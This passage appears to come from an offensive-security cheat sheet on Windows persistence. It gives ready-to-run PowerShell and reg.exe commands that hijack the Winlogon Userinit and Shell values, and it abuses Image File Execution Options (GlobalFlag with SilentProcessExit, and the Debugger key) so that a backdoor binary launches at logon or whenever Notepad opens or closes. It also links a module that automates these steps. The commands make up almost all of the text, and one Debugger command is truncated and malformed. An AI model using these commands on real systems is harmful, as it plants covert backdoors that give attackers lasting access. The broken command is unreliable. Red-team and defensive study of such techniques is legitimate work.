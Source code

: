 #### Winlogon Helper DLL

{% tabs %}
{% tab title="PowerShell" %}
Run backdoor during Windows logon

```text
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, <backdoor.exe>" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, <backdoor.exe>" -Force
```
{% endtab %}

{% tab title="cmd.exe" %}
Run backdoor during Windows logon

```text
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
```
{% endtab %}
{% endtabs %}

#### GlobalFlag

add powershell

Add the following three keys to the registry to allow your backdoor to execute whenever Notepad.exe closes.

```text
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

#### Debugger

You can also abuse this to run your backdoor whenever Notepad.exe is opened with two registry keys:

```text
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "pentestlab.exe"
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe
```

This process can be automated by using [this](https://gist.github.com/netbiosX/ee35fcd3722e401a38136cff7b751d79) PowerShell module from [netbiosX](https://github.com/netbiosX).  

### Scheduled Tasks
